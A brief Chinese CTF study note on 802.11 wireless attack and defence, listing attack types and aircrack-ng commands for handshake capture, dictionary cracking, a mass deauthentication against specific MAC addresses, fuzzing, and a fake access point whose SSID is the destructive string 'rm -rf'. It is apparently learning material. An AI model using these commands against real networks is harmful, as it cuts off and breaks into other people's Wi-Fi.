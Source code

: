 ```yaml
---
title: CTF | 无线网络-802.11攻与防
date: 2018-08-17 08:56:44
tags: 

---
```

<!-- more -->
### 常见的无线攻击威胁


#### fake ap攻击
#### ARP&Dns劫持
####  WIFI DOS 公攻击

#### 操作命令：

`iwconfig`   
`airm`   
`airodump-ng 名称`   
`airmon-ng start name`  
`airodump-ng --bssid xxx -c 信道 -w 保存文件 wlan0mon`   
`aircrack-ng 包 -w 字典 `  
`airodump-ng --bssid B4:0B:44:C2:D5:FF -c 11 -w xmantest wlan0mon`  
`--ivs` 只抓握手包

`airodump-ng wlan0mon`

切换信道：
`iwconfig wlan0mon channel 11`  
踢下线：
`aireplay-ng -0 10000 -a  B4:0B:44:C2:D5:FF -c C4:B3:01:C4:27:31 wlan0mon`
wlan.fc.type_subtype==12

### 无线攻防与进阶
- ProbeRequest Frame
  - ProbeRequest SSID 暴露位置信息&定位
- WPA-Radius 企业无线攻防
- 攻击802.11客户端
### 针对无线设备的漏洞挖掘
- 802.11 Fuzzing
- 
### 无线攻击的识别与防御

fuzz 要根据协议规范，不然协议不认，长度无所谓，但是帧类型的话要根据规范
要知道ap发给客户端还是客户端发给ap

wireshark 流量还原

#### wifuzz 小工具

`python wifuzz.py -s 尿尿 -i wlan0mon probe `
scapy  封装好协议 

`iwconfig wlan0mon channel 1`

`airbase-ng -e "rm -rf" -c 1 -v wlan0mon`


推荐博客：http://www.wiattack.net/index.php/archives/7/
